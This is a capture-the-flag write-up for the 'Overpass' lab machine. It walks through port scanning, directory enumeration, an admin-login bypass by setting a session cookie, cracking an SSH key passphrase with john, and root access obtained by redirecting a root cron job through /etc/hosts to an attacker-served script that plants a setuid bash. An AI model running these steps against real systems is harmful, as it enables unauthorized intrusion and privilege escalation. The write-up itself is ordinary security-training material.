








# Overpass 1

## NMAP

```
$ sudo nmap -sS -p- 10.10.6.233 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 17:58 EDT
Nmap scan report for 10.10.6.233
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 42.43 seconds

$ nmap -sV -p 22,80 10.10.6.233   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 18:03 EDT
Nmap scan report for 10.10.6.233
Host is up (0.052s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.55 seconds
```                

## Website

Looking at the Website


On the html source code we can find the following comment:


This may indicate that it is using some kind of ceaser cipher or a Mono-Alphabetic Substitution Cipher.

On the aboutus page we can see a list of people that work at this company/group:



There are also place where we can download the source code and executables for diferent Operating Systems. In this source we can see how encryption is performed and it is done using ROT47.

## Directory enumeration with Gobuster

```
$ gobuster dir -u http://10.10.6.233 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.6.233
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 0] [--> img/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
/http%3A%2F%2Fwww     (Status: 301) [Size: 0] [--> /http:/www]
/http%3A%2F%2Fyoutube (Status: 301) [Size: 0] [--> /http:/youtube]
/http%3A%2F%2Fblogs   (Status: 301) [Size: 0] [--> /http:/blogs]
/http%3A%2F%2Fblog    (Status: 301) [Size: 0] [--> /http:/blog]
/**http%3A%2F%2Fwww   (Status: 301) [Size: 0] [--> /%2A%2Ahttp:/www]
/http%3A%2F%2Fcommunity (Status: 301) [Size: 0] [--> /http:/community]
/http%3A%2F%2Fradar   (Status: 301) [Size: 0] [--> /http:/radar]
/http%3A%2F%2Fjeremiahgrossman (Status: 301) [Size: 0] [--> /http:/jeremiahgrossman]
/http%3A%2F%2Fweblog  (Status: 301) [Size: 0] [--> /http:/weblog]
/http%3A%2F%2Fswik    (Status: 301) [Size: 0] [--> /http:/swik]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

## Admin portal

Looking at the login js file where the we can see the form being posted we can see the following code.



I simply changed the session cookie on the console




We simply refresh the page and then have access to the admin area.



Here we can find an ssh key. We also have a name: ***James***.

## SSH

Firstly in order to use the rsa private key we need to changes it's permissions. We also need to crack it's password. We can use john the ripper to do this.

* Change permission of rsa private key

    ```chmod 600 overpass_rsa```
* ssh to john format

    ```$ ./ssh2john.py overpass_rsa > overpass_rsa_john```

* crack it with john

    ```
    $ john overpass_rsa_john --wordlist=/home/kali/Desktop/rockyou.txt 
    Created directory: /home/kali/.john
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 2 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    james13          (overpass_rsa)     
    1g 0:00:00:00 DONE (2023-10-11 19:40) 7.692g/s 102892p/s 102892c/s 102892C/s lisa..honolulu
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed. 
    ```

Password is james13

We can now ssh into the machine.

```
$ ssh -i overpass_rsa james@10.10.6.233                           
Enter passphrase for key 'overpass_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Oct 11 23:42:24 UTC 2023

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 16%                IP address for eth0: 10.10.6.233
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ 
```

## Priv Esc

Using linpeas.

I got linpeas on the machine using a python http server.

```
$ python3 -m http.server 1234
```

```
james@overpass-prod:~$ wget http://10.18.22.237:1234/linpeas.sh
--2023-10-11 23:46:28--  http://10.18.22.237:1234/linpeas.sh
Connecting to 10.18.22.237:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 847730 (828K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                100%[====================================================================================>] 827.86K   994KB/s    in 0.8s    

2023-10-11 23:46:29 (994 KB/s) - ‘linpeas.sh’ saved [847730/847730]
```

We find an odd cron job. It runs as root.



We find that we can also write to /etc/hosts.



With this info we can then chage the /etc/hosts to our local local machine and make a malicious shell file that will run as root on the machine we are attacking

### Creat the buildscript

```
#!/bin/bash

cp /bin/bash /tmp/mal_bash

chmod +xs /tmp/mal_bash

```

### Change the hosts file

```
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
# 127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.18.22.237    overpass.thm
```

### Serve the file

```mv buildscript.sh downloads/src ```

```
$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.6.233 - - [11/Oct/2023 20:03:01] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
```

### Go to /tmp and get a root shell

```
james@overpass-prod:~$ cd /tmp
james@overpass-prod:/tmp$ ls
mal_bash                                                                          systemd-private-2d53c5b9d23a4c21a01e8999cb61433b-systemd-timesyncd.service-QI93NL
systemd-private-2d53c5b9d23a4c21a01e8999cb61433b-systemd-resolved.service-54rn0p  tmux-1001
james@overpass-prod:/tmp$ ./mal_bash -p
mal_bash-4.4# whoami
root
mal_bash-4.4# 
```
